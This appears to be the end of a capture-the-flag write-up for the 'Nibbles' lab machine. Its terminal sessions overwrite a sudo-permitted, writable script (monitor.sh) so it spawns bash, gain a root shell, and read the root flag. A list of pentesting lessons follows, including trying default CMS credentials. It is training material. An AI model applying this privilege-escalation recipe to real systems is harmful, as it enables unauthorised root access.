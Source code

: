 ```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '!#/bin/sh' > monitor.sh
echo '!#/bin/sh' > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'bash' >> monitor.sh
echo 'bash' >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh
cat monitor.sh  #Ignore this
!#/bin/sh
bash
```

Now Let us execute the file, assigning the execute permissions, and we would be root.

```bash
#Setting execute permissions
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh
chmod +x monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
ls -l
total 4
-rwxrwxrwx 1 nibbler nibbler 15 Sep  5 07:37 monitor.sh

nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh  #copy the path, as executing with file name won't work
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
root@Nibbles:/home/nibbler/personal/stuff#
root@Nibbles:/home/nibbler/personal/stuff# whoami            
root
root@Nibbles:/home/nibbler/personal/stuff# id
uid=0(root) gid=0(root) groups=0(root)
```

So we are now root(#), lets get the root flag.

```bash
root@Nibbles:/home/nibbler/personal/stuff# cat /root/root.txt
84522082a88d8486069bec7ca27a7cb0
root@Nibbles:/home/nibbler/personal/stuff# 
```
## Learnings

1. In case of Web (80/443) or any other web service ports exposed, source code can sometimes help to get in right direction.
2. Source code (or view source) can also help us get some directories on the machine.
3. If Gobuster or other similar tools dont give results, change endpoint to on of the directories gained from the previous Learning (L2).
4. Always check the overly permissive files that execute as other users and writable by the user you are.
5. In case of any Application/CMS discovered, always check for the default credentials (username:password).

